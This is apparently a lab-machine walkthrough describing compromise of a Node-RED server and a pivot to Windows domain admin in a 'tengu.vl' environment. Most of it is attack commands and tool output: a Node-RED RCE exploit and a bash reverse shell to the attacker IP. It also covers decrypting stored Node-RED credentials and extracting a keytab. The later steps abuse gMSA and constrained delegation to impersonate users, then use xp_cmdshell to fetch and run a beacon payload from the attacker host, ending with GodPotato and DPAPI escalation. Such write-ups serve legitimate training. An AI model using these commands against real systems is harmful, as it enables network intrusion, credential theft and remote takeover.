


# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.208.101 ; 10.10.208.102 ; 10.10.208.103
```
```bash
Machine 0x1
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x2
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x3
PORT     STATE SERVICE
22/tcp     open  ssh
1880/tcp   open  vsat-control
```
# Exploit NodeRed

Going to the website on 10.10.208.103 on port 1880 give us this page :



After some enumeration we find this exploit : [https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/](https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/)

Run the script : 

```bash
python3 exploit.py http://10.10.208.103:1880
```


Let's get a normal shell :

```bash
nc -lvnp 1234

> bash -c 'bash -i >& /dev/tcp/10.8.2.163/1234 0>&1'
```
Now let's do a scan with fscan to see what's running on the machine :

```bash
./fscan -h 10.10.208.0/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 10.10.208.97    is alive
(icmp) Target 10.10.208.101   is alive
(icmp) Target 10.10.208.102   is alive
(icmp) Target 10.10.208.103   is alive
[*] Icmp alive hosts len is: 4
10.10.208.101:445 open
10.10.208.101:139 open
10.10.208.101:135 open
10.10.208.102:1433 open
10.10.208.102:445 open
10.10.208.101:88 open
10.10.208.103:22 open
[*] alive ports len is: 7
start vulscan
[*] NetBios 10.10.208.101   [+] DC:TENGU\DC
[*] NetInfo
[*]10.10.208.101
   [->]DC
   [->]10.10.208.101
```
Let's forward with chisel :

```bash
# on local machine
chisel server -p 9999 --reverse
# on target machine
./chisel client 10.8.2.163:9999 R:socks &
```
# Crack .node-red creds

Before pivoting, let's try to find creds on the machine :

```bash
nodered_svc@nodered:~/.node-red$ pwd
/home/nodered_svc/.node-red

nodered_svc@nodered:~/.node-red$ cat flows_cred.json
{
    "$": "7f5ab122acc2c24df1250a302916c1a6QT2eBZTys+V0xdb7c6VbXMXw2wbn/Q3r/ZcthJlrvm3XLJ8lSxiq+FAWF0l3Bg9zMaNgsELXPXfbKbJPxtjkD9ju+WJrZBRq/O40hpJzWoKASeD+w2o="
}    
```
I found this on goolge : [https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

So let's get the .node-red directory on our local machine

```bash
# on target machine
python3 -m http.server
# on local machine 
wget -m http://10.10.208.103:8000/.node-red

# Now run the script 
./toto.sh .node-red

{"d237b4c16a396b9e":{"username":"nodered_connector","password":"REDACTED"}}
```
Nice !!

We can try creds everywhere :

```bash
proxychains -q cme smb 10.10.208.101 -u 'nodered_connector' -p 'REDACTED'

SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
SMB         10.10.208.101   445    DC               [-] tengu.vl\nodered_connector:REDACTED STATUS_LOGON_FAILURE

# But there is a mssql on the 2nd machine

proxychains -q python3 mssqlclient.py -dc-ip 10.10.208.101 -target-ip 10.10.208.102 tengu.vl/'nodered_connector':'REDACTED'@'10.10.208.101'
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Dev
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'Dev'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (nodered_connector  nodered_connector@Dev)>
```
Let's enumerate :

```bash
SQL (nodered_connector  nodered_connector@Dev)> SELECT name FROM master.dbo.sysdatabases;
name
------
master

tempdb

model

msdb

Demo

Dev

SQL (nodered_connector  nodered_connector@Dev)> use Demo
[*] ENVCHANGE(DATABASE): Old Value: Dev, New Value: Demo
[*] INFO(SQL): Line 1: Changed database context to 'Demo'.
SQL (nodered_connector  nodered_connector@Demo)> select * from users;
  ID   Username          Password
----   ---------------   -------------------------------------------------------------------
NULL   b't2_m.winters'   b'af[...]147'
```
We can crack the hash using this site : [https://crackstation.net/](https://crackstation.net/)

# GMSA Password to Delegation Rights

```bash
proxychains -q cme ldap 10.10.208.101 -u 't2_m.winters' -p 'REDACTED'

SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.208.101   389    DC               [+] tengu.vl\t2_m.winters:REDACTED
```
Nice we have a valide user on the DC

```bash
proxychains -q cme ldap 10.10.208.101 -u 't2_m.winters' -p 'REDACTED' --bloodhound -ns 10.10.208.101 -c all
SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.208.101   389    DC               [+] tengu.vl\t2_m.winters:REDACTED
LDAP        10.10.208.101   389    DC               Resolved collection methods: trusts, group, dcom, container, psremote, objectprops, session, localadmin, rdp, acl
LDAP        10.10.208.101   389    DC               Done in 00M 10S
LDAP        10.10.208.101   389    DC               Compressing output into /root/.cme/logs/DC_10.10.208.101_2024-08-25_225915bloodhound.zip
```


As we can see, NODERED$ can read GMSA password but we don't have the hash of NODERED$

After some enumeration : 

```bash
proxychains -q findDelegation.py "tengu.vl"/"t2_m.winters":'REDACTED'
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

AccountName  AccountType                          DelegationType                      DelegationRightsTo
-----------  -----------------------------------  ----------------------------------  --------------------------
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/SQL:1433
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql.tengu.vl:1433
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql.tengu.vl
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql
```
So if we manage to have NODERED$, we can have GMSA01$ which will allow us to impersonate for example the administrator of the machine where the mssql server is, which will allow us to activate xp_cmdshell in order to have a shell with "SeImpersonatePrivilege" activated, we can therefore pass NT/AUTHORITY SYSTEM

If we return to the linux machine we can see this :

```bash
nodered_svc@nodered:/home/tengu.vl$ ls
t2_m.winters
```
So we can try to login as t2_m.winters on the linux machine :

```bash
nodered_svc@nodered:/home/tengu.vl$ su t2_m.winters@tengu.vl
Password:
t2_m.winters@tengu.vl@nodered:/home/tengu.vl$ sudo -l
Matching Defaults entries for t2_m.winters@tengu.vl on nodered:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User t2_m.winters@tengu.vl may run the following commands on nodered:
    (ALL : ALL) ALL
t2_m.winters@tengu.vl@nodered:/home/tengu.vl$ sudo su
root@nodered:/home/tengu.vl#
```
Ok nice we are root, we can try to extracts accounts from /etc/krb5.keytab, for this we gonna use this [https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py](https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py)

```bash
root@nodered:~# python3 keytabextract.py /etc/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : TENGU.VL
        SERVICE PRINCIPAL : NODERED$/
        NTLM HASH : d4[...]49
        AES-256 HASH : 4ce[...]096
        AES-128 HASH : 3e0[...]85f
```
Nice !!!

Let's Read GMSA Password :

```bash
proxychains -q cme ldap 10.10.208.101 -u 'NODERED$' -H :'REDACTED' --gmsa
SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.208.101   636    DC               [+] tengu.vl\NODERED$:REDACTED
LDAP        10.10.208.101   636    DC               [*] Getting GMSA Passwords
LDAP        10.10.208.101   636    DC               Account: gMSA01$              NTLM: d[...]37
```
Now impersonate Administrator

```bash
proxychains -q getST.py -spn 'MSSQLSvc/sql.tengu.vl' 'tengu.vl/gMSA01$' -hashes :'d4[...]b37' -impersonate 'Administrator'
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

export KRB5CCNAME=Administrator@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

> klist
Ticket cache: FILE:Administrator@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache
Default principal: Administrator@tengu.vl

Valid starting       Expires              Service principal
08/25/2024 23:34:59  08/26/2024 09:34:59  MSSQLSvc/sql.tengu.vl@TENGU.VL
        renew until 08/26/2024 23:35:01
```
But it doesn't work :

```bash
proxychains -q python3 mssqlclient.py -k sql.tengu.vl
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
```
# XP_CMDSHELL to GodPotato

So instead of Administrator we gonna impersonate a user which is in sql_admins group :

```bash
proxychains -q getST.py -spn 'MSSQLSvc/sql.tengu.vl' 'tengu.vl/gMSA01$' -hashes :'d4b[...]b37' -impersonate 't1_m.winters'
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating t1_m.winters
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in t1_m.winters@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

export KRB5CCNAME=t1_m.winters@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

proxychains -q python3 mssqlclient.py -k sql.tengu.vl
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'master'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (TENGU\t1_m.winters  dbo@master)>
```
Ok nice, get a shell thanks to "xp_cmdshell"

```bash
xp_cmdshell "echo IWR http://10.8.2.163:8000/beacon.exe -OutFile %TEMP%\beacon.exe | powershell -noprofile"

xp_cmdshell %TEMP%\beacon.exe
```


Now we can run GodPotato :


Nice !!

After some enumeration we can find ```C:\admin\Task.ps1```, and if we run ```icacls Task.ps1``` :

```powershell
PS C:\admin> icacls Task.ps1
icacls Task.ps1
Task.ps1 NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         BUILTIN\Users:(I)(RX)
         TENGU\T0_c.fowler:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```
So we can just replace this task by a revshell that gonna be execute as T0_c.fowler but i'm gonna use another way to become DA of this chain.

# DPAPI 

```bash
sliver (sidecar-http) > sharpdpapi machinetriage
```
 

Now config your ```/etc/krb5.conf``` file like this : 

```bash
[libdefaults]
        default_realm = TENGU.VL
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        TENGU.VL = {
                kdc = dc.tengu.vl
        }

[domain_realm]
        .tengu.vl = TENGU.VL
```
```bash
proxychains -q kinit T0_c.fowler
Password for T0_c.fowler@TENGU.VL:

klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: T0_c.fowler@TENGU.VL

Valid starting       Expires              Service principal
08/26/2024 00:20:24  08/26/2024 04:20:24  krbtgt/TENGU.VL@TENGU.VL
        renew until 08/26/2024 04:20:24
```
And evil-winrm

```bash
proxychains -q evil-winrm -r TENGU.VL -i dc.tengu.vl
```
T0_c.fowler is a member of "Domain Admins" group so we can go in ```C:\Users\Administrator\Desktop```

If you have any questions you can dm me on [instagram](https://instagram.com/eliott.la) or on discord at : 'ethicxz.'


